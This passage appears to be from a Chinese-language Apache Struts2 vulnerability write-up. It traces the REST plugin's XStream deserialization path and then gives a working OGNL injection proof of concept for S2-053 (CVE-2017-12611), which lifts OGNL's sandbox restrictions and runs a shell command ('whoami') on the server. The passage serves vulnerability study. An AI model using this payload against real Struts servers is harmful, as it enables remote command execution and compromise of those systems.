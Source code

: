 可以看到，如果Content-Type为application/xml，就会调用 `org.apache.struts2.rest.handler.XStreamHandler` 处理器来进行处理。我们在 `org.apache.struts2.rest.handler.ContentTypeHandler#intercept(ActionInvocation invocation)` 代码如下所示：

```java
public String intercept(ActionInvocation invocation) throws Exception {
    HttpServletRequest request = ServletActionContext.getRequest();
    ContentTypeHandler handler = selector.getHandlerForRequest(request);
    
    Object target = invocation.getAction();
    if (target instanceof ModelDriven) {
        target = ((ModelDriven)target).getModel();
    }
    
    if (request.getContentLength() > 0) {
        InputStream is = request.getInputStream();
        InputStreamReader reader = new InputStreamReader(is);
        handler.toObject(reader, target);
    }
    return invocation.invoke();
}
```

逻辑很简单， `ContentTypeHandler handler = selector.getHandlerForRequest(request)` 就是根据Content-Type获取对应的处理器，由于我们的Content-Type为application/xml，所以这里获取的就是 `XStreamHandler` 对象，最后调用 `handler.toObject(reader, target)` 对请求进行处理。所以我们继续跟进 `XStreamHandler#toObject(reader, target)` ：

```java
public void toObject(Reader in, Object target) {
    XStream xstream = createXStream();
    xstream.fromXML(in, target);
}
```

发现就是很直接的Xstream反序列化。

![image-20210816184345338](/media/image-20210816184345338.png)

## S2-053

影响版本：Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1

CVE编号：CVE-2017-12611

POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```
